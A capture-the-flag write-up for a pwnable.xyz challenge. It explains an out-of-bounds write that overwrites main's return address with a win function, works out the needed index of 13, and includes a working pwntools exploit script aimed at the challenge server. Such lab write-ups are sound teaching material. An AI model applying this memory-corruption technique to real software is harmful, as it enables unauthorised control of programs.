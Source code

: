 The meat of the challenge is this part of code:

![oob](https://i.imgur.com/4mT7e1A.png)  

`rcx` `rdx` and `rax` have our 3 arguments (with this order). 
As we can see, `rcx` and `rdx` are added and the result goes to: `[rbp+rax*8+var_60]`.  
Well, we have complete control of this address because `rax` contains our 3rd argument.  
That means:
* We control **what** we want to write (result = `rdx`+`rcx`)
* We control **where** to write it (`rax`)  

So, we can set the address of `win` function as the return address of `main`.

I set a breakpoint to see the `rbp` value when the result is stored (0x4008c3): **0x7fffffffdf50**  
I set a breakpoint at the ret address of main (0x40090b): **`rsp` = 0x7fffffffdf58**  
`0x7fffffffdf58 - 0x7fffffffdf50 = 0x8` which means if we can make this `[rbp+rax*8+var_60]` have the value `rbp + 0x8`,
we will have overwritten the ret address of main with `win`.  

Quick mafs there: 
> rax*8 - 0x60 =  8   
=> rax*8 - 96 =  8   
=> rax - 12 = 1  
=> rax = 13  

`payload = win_addr + 0 + 13`  

### Exploit  
```python
#!/usr/bin/python3
from pwn import *

ip = 'svc.pwnable.xyz'
port = 30002
filename = './challenge'

def pwn():
	r = remote(ip, port)
	e = ELF(filename, checksec=False)
	
	win = e.symbols['win']
	num1 = str(win) 
	num2 = ' 0'
	num3 = ' 13'
	payload = num1 + num2 + num3
	r.sendlineafter(':', payload)
	r.sendlineafter(':', 'random')
	r.recvuntil(': ')
	flag = r.recvall().decode('utf8')
	log.success(flag)
	
pwn()
```
